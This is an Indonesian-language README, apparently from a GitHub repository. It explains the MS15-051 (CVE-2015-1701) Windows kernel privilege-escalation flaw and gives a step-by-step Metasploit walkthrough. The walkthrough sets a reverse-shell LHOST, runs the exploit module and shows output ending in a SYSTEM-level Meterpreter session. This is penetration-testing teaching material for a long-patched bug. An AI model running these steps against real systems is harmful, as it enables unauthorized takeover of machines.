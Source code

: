 # MS15-051

## A. Apa itu MS15-051?

[MS15-051]() adalah kerentanan local privilege escalation (LPE) pada driver kernel Windows `win32k.sys`. Kerentanan ini memungkinkan penyerang dengan hak akses user biasa untuk meningkatkan hak akses menjadi `NT AUTHORITY\SYSTEM`, level tertinggi dalam sistem Windows.

Eksploitasi ini memanfaatkan race condition dalam fungsi `NtSetWindowLongPtr()` yang memungkinkan manipulasi objek window di kernel secara tidak aman, sehingga memungkinkan overwrite pointer dan eksekusi kode sewenang-wenang dengan hak `SYSTEM`.

## B. Detail Teknis:
- **CVE ID**: `CVE-2015-1701`
- **Buletin Microsoft**: `MS15-051`
- **Tanggal Rilis**: `12 Mei 2015`
- **Tipe**: Local Privilege Escalation (`LPE`)
- **Arsitektur**: `x86` dan `x64`
- **Platform**: `Windows`

## C. Sistem yang Rentan:
- Windows 7
- Windows Server 2008 R2
- Windows 8
- Windows 8.1
- Windows Server 2012
- Windows Server 2012 R2

Lihat detail lengkapnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/id-id/security-updates/securitybulletins/2015/ms15-051#affected-software](https://learn.microsoft.com/id-id/security-updates/securitybulletins/2015/ms15-051#affected-software)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS15-051:

   ```
   msf6 > use exploit/windows/local/ms15_051_client_copy_image
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set targets <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [*] Reflectively injecting the exploit DLL and executing it...
   [*] Launching msiexec to host the DLL...
   [+] Process 1992 launched.
   [*] Reflectively injecting the DLL into 1992...
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Meterpreter session 15 opened (192.168.1.42:4444 -> 192.168.1.50:49174) at 2025-05-14 16:19:31 +0700

   meterpreter > 
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```
